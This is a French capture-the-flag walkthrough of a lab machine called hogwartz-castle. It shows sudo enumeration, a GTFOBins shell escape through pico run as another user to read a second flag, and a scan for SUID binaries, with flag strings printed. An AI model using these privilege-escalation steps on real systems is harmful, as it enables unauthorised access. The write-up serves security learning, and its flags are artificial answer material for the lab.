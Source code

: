 On se connecte sur le service SSH et on trouve le fichier user1.txt  

La flag est : RME{th3-b0Y-wHo-l1v3d-f409da6f55037fdc}   

```bash
harry@hogwartz-castle:~$ sudo -l
[sudo] password for harry: 
Matching Defaults entries for harry on hogwartz-castle:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User harry may run the following commands on hogwartz-castle:
    (hermonine) /usr/bin/pico
    (hermonine) /usr/bin/pico
```

On voit que l'on peut exécuter pico avec les droits hermonine.   

```bash
harry@hogwartz-castle:~$ sudo -u hermonine /usr/bin/pico
sudo pico
^R^X
reset; sh 1>&0 2>&0
$ cd ..
$ ls
harry  hermonine
$ cd hermonine
$ ls
user2.txt
$ cat user2.txt
RME{p1c0-iZ-oLd-sk00l-nANo-64e977c63cb574e6}
```

Il faut exécuter pico avec les droits hermonine.  
On dit à pico d'exécuter un shell.   
On va dans le répertoire hermonine.   
On lit le fichier user2.txt.    
Le flag est : RME{p1c0-iZ-oLd-sk00l-nANo-64e977c63cb574e6}   

Les commandes pico se trouvent dans [GTFObin](https://gtfobins.github.io/gtfobins/pico/#sudo).  

```bash
bash: /home/harry/.bashrc: Permission denied
hermonine@hogwartz-castle:/home/hermonine$ 

hermonine@hogwartz-castle:/home/hermonine$ find / -perm -4000 2>/dev/null
/srv/time-turner/swagger
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/bin/umount
/bin/fusermount
/bin/su
/bin/ping
```